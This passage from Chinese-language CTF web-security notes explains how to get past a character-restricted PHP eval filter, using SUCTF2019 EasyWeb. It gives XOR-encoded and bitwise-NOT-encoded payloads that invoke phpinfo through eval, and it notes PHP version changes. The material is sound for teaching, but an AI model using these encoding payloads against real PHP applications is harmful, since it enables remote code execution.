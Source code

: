 例如[[SUCTF2019]EasyWeb](https://github.com/team-su/SUCTF-2019/blob/master/Web/easyweb/wp/SUCTF%202019%20Easyweb.md)对`$code`给定下列WAF：

- 字符串长度不得超过18
- 只许含有`! # $ % ( ) * + - / : ; < > ? @ \ ] ^ { }`与其它非ASCII字符
- 字符种类数不能大于12
- 满足上述条件才执行`eval($code)`

可以考虑构造Payload：`$code=$_GET['\xff']();`与`$\xff=phpinfo()`

```python
url_GET = UrlCode('_GET')
url_AllXff = UrlCode('\xff\xff\xff\xff')
url_GET_Xor = url_GET.xor(url_AllXff)
url_Xff = UrlCode('\xff')
url = "?_=${" + str(url_AllXff) + '^' + str(url_GET_Xor) + '}{' + str(url_Xff) + '}();&' + str(url_Xff) +'=phpinfo'

print(url) # ?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

或者考虑取反：$code=(~%8F%97%8F%96%91%99%90)();
```

> 注意：PHP从[7.4.0](https://stackoverflow.com/a/59158847/16366622)开始取消通过花括号获取数组/字符串元素的特性。
>
> ```php
> // PHP < 7.4.0
> $string = 'abc';
> echo $string{0}; // a
> $array = [1, 2, 3];
> echo $array{0}; // 1
> 
> // PHP >= 7.4.0 
> echo $string[0]; // a
> echo $array[0]; // 1
> echo $array{0}; // Deprecated: Array and string offset access syntax with curly braces is deprecated
> ```

> 注意：PHP从[7.2.0](https://www.php.net/manual/zh/migration72.deprecated.php)开始，当常量不存在时，不再将常量名解析成字符串。
>
> ```php
> // PHP < 7.2.0
> print(HelloWorld);
> 	// Warning: Use of undefined constant HelloWorld - assumed 'HelloWorld' (this will throw an Error in a future version of PHP) in %s on line %d
> 	// 输出HelloWorld
> 
> // PHP >= 7.2.0
> print(HelloWorld);
> 	// PHP Fatal error:  Uncaught Error: Undefined constant "HelloWorld" in %s:%d
> ```

## §8.20 Session扩展（Session Extensions）
